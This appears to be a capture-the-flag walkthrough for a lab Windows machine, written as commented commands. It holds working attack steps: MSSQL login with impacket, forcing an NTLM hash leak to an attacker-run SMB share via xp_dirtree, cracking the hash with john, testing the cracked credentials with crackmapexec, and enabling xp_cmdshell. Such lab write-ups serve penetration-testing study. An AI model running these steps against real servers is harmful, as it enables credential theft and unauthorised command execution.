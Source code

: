 #in the NMAP scan we saw that port 1433 is open which is a SQL server. We use sqsh to access it or mssqlclient.py from impacket.

/home/rickybana/.local/bin/mssqlclient.py WORKGROUP/reporting@10.10.10.125 -windows-auth

#Once we are in we could try to abuse xp_cmdshell to execute commands.

xp_cmdshell "whoami"

#however permission is denied. Then we could try to see if we can change advanced options. But we do not have permission for that.

sp_configure "show advanced options", 1

#Inside the SQL we could try to check for other folder that are shared at a network level with xp_dirtree command. So we are going to create a fake SMB folder share and capture the credentials the SQL server sents to then crack the hash. First step we create the server: 

/home/rickybana/.local/bin/smbserver.py smbFolder $(pwd) -smb2support 

#we use smbserver to create a folder called smbFolder in the current working directory and we add smb2 support to maximize compatibility. After that in the server we request the folder so we can capture the credentials.

xp_dirtree "\\10.10.14.3\smbFolder\"

# we place the hash inside a file and crack it with john so we get the user and password.  mssql-svc:corporate568

john -w:/usr/share/wordlists/rockyou.txt hash

#we verify if its possible to psexec or winrm with those credentials but we are not able. 

crackmapexec smb 10.10.10.125 -u 'mssql-svc' -p 'corporate568' -d WORKGROUP
#valid but not pwned so we cannot psexec.

crackmapexec winrm 10.10.10.125 -u 'mssql-svc' -p 'corporate568' -d WORKGROUP
#not valid.

# We reconect to the SQL server with the new credentials and check if we can run commands.

xp_cmdshell "whoami"
[-] ERROR(QUERIER): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.


#Just like before we are going to change the config to allow changes and the allow the cmdshell execution.

sp_configure "show advanced options", 1

reconfigure

sp_configure "xp_cmdshell", 1
